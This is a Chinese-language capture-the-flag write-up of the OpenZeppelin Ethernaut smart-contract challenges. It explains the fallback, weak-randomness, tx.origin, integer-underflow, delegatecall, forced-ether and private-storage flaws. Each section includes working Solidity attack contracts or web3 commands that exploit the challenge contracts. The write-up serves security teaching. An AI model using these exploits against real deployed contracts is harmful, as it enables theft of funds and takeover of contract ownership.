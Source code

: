 https://ethernaut.openzeppelin.com/

# challenges

## Fallback

此challenge重点在[fallback函数](https://docs.soliditylang.org/en/latest/contracts.html?highlight=fallback#fallback-function)

fallback函数在以下情况会执行：
- 调用该合约中不存在的函数
- 有账户向该合约发送以太币(没有相应的接收函数)

通过`contract.sentTransaction({value: 1})`即可调用`fallback()`函数

## Coin Flip

此challenge重点在随机数安全

通过challenge的条件是连续猜对十个bool值，该bool是从上一个区块的哈希值计算出：
```solidity
uint256 blockValue = uint256(blockhash(block.number.sub(1)));
uint256 coinFlip = blockValue.div(FACTOR);
bool side = coinFlip == 1 ? true : false;
```

上一个区块的哈希值是链上公开数据。解决方法是：自己部署一个合约，用相同的逻辑计算出该bool值，再调用challenge中的合约把事先计算出的答案传递过去。

```solidity
pragma solidity ^0.6.0;

import 'https://github.com/OpenZeppelin/openzeppelin-contracts/blob/release-v3.0.0/contracts/math/SafeMath.sol';
import './coinflip.sol';

contract CoinFlipPoc {
  using SafeMath for uint256;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  CoinFlip target;
  
  constructor (address adimAddr) public {
      target = CoinFlip(adimAddr);
  }

  function hack() public {
      uint256 blockValue = uint256(blockhash(block.number.sub(1)));
      uint256 coinFlip =uint256(uint256(blockValue) / FACTOR);
      bool guess = coinFlip == 1 ? true : false;
      target.flip(guess);
  }
}
```

## Telephone

```solidity
function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
```

[官方文档](https://docs.soliditylang.org/en/latest/cheatsheet.html?highlight=tx.origin#global-variables)
`tx.origin`和`msg.sender`的区别

- `msg.sender` (address): sender of the message (current call)
- `tx.origin` (address): sender of the transaction (full call chain)

然后合约中可以调用其他合约。自己起个合约调用challenge合约中的`changeOwner`函数即可。
此时`tx.origin`就是我的地址，`msg.sender`是我部署的合约的地址。

```solidity
pragma solidity ^0.6.0;

import './telephone.sol';

contract Exp_Telephone {

  Telephone public aim;

  constructor(address _aim) public {
    aim = Telephone(_aim);
  }

  function hack(address me) public {
    aim.changeOwner(me);
  }
}
```

## Token

正整形数的下溢

```solidity
function transfer(address _to, uint _value) public returns (bool) {
  require(balances[msg.sender] - _value >= 0);
  balances[msg.sender] -= _value;
  balances[_to] += _value;
  return true;
}
```

用户初始balances为20，只要向其他地址发送大于20的就会产生下溢，得到一个很大的数字。

```javascript
await contract.transfer("0x"+"0".repeat(40), 21)
```

## Delegation

参考https://paper.seebug.org/633

几种调用合约方法的区别：

- call: msg 的值会修改，执行环境改变
- delegatecall: msg 的值不会被修改，执行环境不变
- callcode: msg 的值会被修改，执行环境不变

delegatecall和callcode的执行环境不变，并不是变量名相同

而是指在赋值的时候，该变量在此合约对应slot映射到原来合约的slot

见 https://github.com/ethereum/solidity/issues/944

其次这三个函数的调用方法都相同，均为：

```solidity
addr.call(bytes4(keccak256("test()")));  // no params
addr.call(bytes4(keccak256("test(uint256)")), 10);  // with params
```

web3中的调用方法为：

```javascript
await contract.sendTransaction({data: web3.utils.sha3("pwn()").slice(0,10)});
```

## Force

合约没有任何内容，challenge通过的条件为合约地址中余额大于0

```javascript
web3.eth.sendTransaction({from: player, to: contract.address, value: 1})
```

直接发送会失败。
两种方法：

- 创建一个合约并让它自毁，指定自毁后余额去向
- 挖矿并将奖励接收地址设置为它

payload：

```solidity
pragma solidity ^0.6.0;

contract Force_exp {
    constructor() payable public{}
    
    function exp(address aim) public{
        selfdestruct(payable(aim));
    }
}
```

## Vault

该challenge有一个被private修饰的password，需要获取password值。

[官方文档](https://docs.soliditylang.org/en/latest/contracts.html?highlight=private#visibility-and-getters) 
描述针对状态变量的三种visibility区别：

- `public` can be either called internally or via messages. For public state variables, an automatic getter function (see below) is generated.
- `internal` can only be accessed internally (i.e. from within the current contract or contracts deriving from it), without using this. This is the default visibility level for state variables.
- `private` only visible for the contract they are defined in and not in derived contracts.

下面还给了个note：

>Everything that is inside a contract is visible to all observers external to the blockchain. Making something private only prevents other contracts from reading or modifying the information, but it will still be visible to the whole world outside of the blockchain.

也就是说，private仅仅起到可以不被其他合约读取和修改，但还是属于链上公开信息。

```solidity
constructor(bytes32 _password) public {
  locked = true;
  password = _password;
}
```

该合约在创建时，password是输入数据，因此顺着合约地址找到 [区块链浏览器](https://rinkeby.etherscan.io/) 上对应创建合约的这笔交易信息的State中可以看到对State的修改也即password的修改

更好的做法是利用web3

```javascript
web3.utils.toAscii(await web3.eth.getStorageAt(contract.address, 1))
```